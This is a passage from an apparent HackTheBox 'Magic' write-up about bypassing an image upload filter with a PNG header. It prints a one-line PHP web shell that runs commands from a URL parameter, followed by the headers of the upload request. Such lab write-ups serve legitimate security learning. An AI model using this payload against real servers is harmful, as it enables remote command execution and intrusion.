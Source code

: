 ![](../../.gitbook/assets/1.5-image-upload.png)

Whatever method used to get the upload page: 

![](../../.gitbook/assets/3-magic-upload.png)

from here I was able to craft an image upload with a png file header and php code in it and send it using Burp Repeater. I got this idea a while back from watching one of Ippsec's videos [HackTheBox - Vault](https://www.youtube.com/watch?v=LfbwlPxToBc&t=519s)

[https://www.php.net/manual/en/function.passthru.php](https://www.php.net/manual/en/function.passthru.php) [https://stackoverflow.com/questions/732832/php-exec-vs-system-vs-passthru](https://stackoverflow.com/questions/732832/php-exec-vs-system-vs-passthru)

`<?php passthru($_GET['test']); ?>`

```http
POST /upload.php HTTP/1.1
Host: 10.10.10.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.185/upload.php
Content-Type: multipart/form-data; boundary=---------------------------25702794813234425341306225294
Content-Length: 392
Connection: close
Cookie: PHPSESSID=vfentnpg4tsu3j7ika4djhsjmv
Upgrade-Insecure-Requests: 1
```